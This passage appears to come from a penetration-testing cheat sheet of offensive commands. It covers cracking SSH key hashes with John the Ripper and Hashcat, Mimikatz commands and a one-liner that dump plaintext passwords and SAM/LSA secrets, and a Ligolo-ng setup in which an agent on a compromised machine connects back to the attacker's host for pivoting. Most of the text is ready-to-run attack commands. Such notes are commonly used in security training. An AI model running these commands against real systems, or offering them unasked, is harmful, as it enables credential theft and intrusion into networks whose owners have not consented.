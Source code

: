#### John

[https://github.com/openwall/john/tree/bleeding-jumbo/run](https://github.com/openwall/john/tree/bleeding-jumbo/run) [ssh2john.py](http://ssh2john.py)

```bash
ssh2john id_rsa > hash
#Convert the obtained hash to John format(above link)
john hashfile --wordlist=rockyou.txt
```

#### Hashcat

[https://hashcat.net/wiki/doku.php?id=example\_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) #Obtain - Find the Hash module number

```bash
hashcat -m MODULE_NUMBER hash wordlists.txt --force
```

#### Mimikatz

```
privilege::debug
sekurlsa::logonpasswords  #hashes and plaintext passwords
lsadump::sam
lsadump::lsa /patch  #both these dump SAM
#OneLiner
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

#### Ligolo-ng

```bash
#Creating interface and starting it.
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up

#Kali machine - Attacker machine
./proxy -laddr 0.0.0.0:9001 -selfcert

#windows or linux machine - compromised machine
./agent -connect KALI_IP:9001 -ignore-cert

#In Ligolo-ng console
session #select host
ifconfig #Notedown the internal network's subnet
start #after adding relevent subnet to ligolo interface

#Adding subnet to ligolo interface - Kali linux
sudo ip r add SUBNET/MASK dev ligolo
```

### Recon and Enumeration
